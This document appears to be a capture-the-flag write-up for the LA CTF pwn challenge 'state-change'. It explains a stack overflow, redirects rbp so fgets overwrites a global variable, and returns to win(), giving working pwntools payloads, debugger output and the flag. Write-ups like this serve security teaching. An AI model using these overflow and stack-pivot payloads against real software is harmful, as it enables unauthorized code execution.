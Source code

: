 # state-change

pwn/state-change
asdiml
146 solves / 311 points

Changes in state are like rustlings in the wind

`nc chall.lac.tf 31593`

## Vulnerability
Here is the source code of the challenge:
```c
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
    
    return 0;
}
```
The vulnerability is obvious:
```c
void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}
```
There's 0x10 bytes of overflow in the function `vuln()`, which means we can overflow the stack and overwrite `old rbp` as well as the return address of the function `vuln()`.  

## Solution
A no-brainer return option would be `win()` because in that function we get the flag. However, there's one more thing to do before that, which is changing the global variable `state` from `0xdeaddead` to `0xf1eeee2d` because of the following protection:
```c
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
```


> changing the global variable `state` from `0xdeaddead` to `0xf1eeee2d`

To achieve this, we can return to `fgets` to write `state` to `0xf1eeee2d`. More specifically, setting the address of `state` to be the destination buffer of `fgets`, then send `0xf1eeee2d`, just like the following:
```
 ► 0x4012e3 <vuln+46>    call   fgets@plt                   <fgets@plt>
        s: 0x404530 (buf+1264) ◂— 0
        n: 0x30
        stream: 0x7f8f8e8438e0 (_IO_2_1_stdin_) ◂— 0xfbad208b

```
So...how can we do it?  
The trick is to overwrite `old rbp` to `address of state+0x20` before returning to `fgets`, because the destination buffer is loaded from `rbp-0x20`, `state` + 0x20 - 0x20 becomes the address of state!
```
 ► 0x4012d7 <vuln+34>    lea    rax, [rbp - 0x20]                 RAX => 0x404540 (state) ◂— 0xdeaddead
```
Then, after the `fgets` function finishes, we can see that `state` and its surrounding data indeed got overwritten
```
pwndbg> tele 0x404540
00:0000│ rax rcx 0x404540 (state) ◂— 0xf1eeee2d00
01:0008│-018     0x404548 ◂— 0x4242424242424200
02:0010│-010     0x404550 ◂— 0x4242424242424242 ('BBBBBBBB')
... ↓            2 skipped
05:0028│+008     0x404568 (errorMsg+8) ◂— 0x4011d642
```
But unfortunately there's a null-byte somehow, that corrupts the desired value. I am not sure where does the null-byte come from, it might have been due to my specific payload:
```py
payload = flat(
	b'A' * 0x20,
	p64(0x404560), # rbp
	p64(0x4012d0)
)
payload2 = flat(
	p64(0xf1eeee2d),
	b'B'* 0x20,
	p64(0x4011d6)
)
p.send(payload)
p.send(payload2)
```
Or just because that's a newline character added and changed to null byte  

Anyway, what I did to avoid that was to modify my second payload to become the following:
```py
payload = flat(
	b'A' * 0x20,
	p64(0x404550), # rbp
	p64(0x00000000004012d0)
)
payload2 = flat(
	b'A'* (0x10 - 1),
	p64(0xf1eeee2d),
	b'B'* 0x10,
	p64(0x00000000004011d6)
)
```
I set `old rbp` to be `state+0x10`, then the destination buffer of fgets become `state-0x10`, then I send `0x10 - 1` bytes (where the -1 byte reserve a space for the null-byte) to pad up to where `state` locates. Finally, overwrite it with `0xf1eeee2d` and set the `rbp-0x8` aka return address to starting address of `win()`, that solves the problem!
```
pwndbg> tele 0x404530
00:0000│ rax rcx 0x404530 (buf+1264) ◂— 0x4141414141414100
01:0008│-018     0x404538 (buf+1272) ◂— 0x4141414141414141 ('AAAAAAAA')
02:0010│-010     0x404540 (state) ◂— 0xf1eeee2d
03:0018│-008     0x404548 ◂— 0x4242424242424242 ('BBBBBBBB')
04:0020│ rbp     0x404550 ◂— 0x4242424242424242 ('BBBBBBBB')
05:0028│+008     0x404558 —▸ 0x4011d6 (win) ◂— endbr64
```
## flag
```
└─$ python solve.py 
[+] Starting local process './chall': pid 914328
[+] Opening connection to chall.lac.tf on port 31593: Done
[*] Switching to interactive mode
Here's the flag: 
lactf{1s_tHi5_y0Ur_1St_3vER_p1VooT}
[*] Got EOF while reading in interactive
```
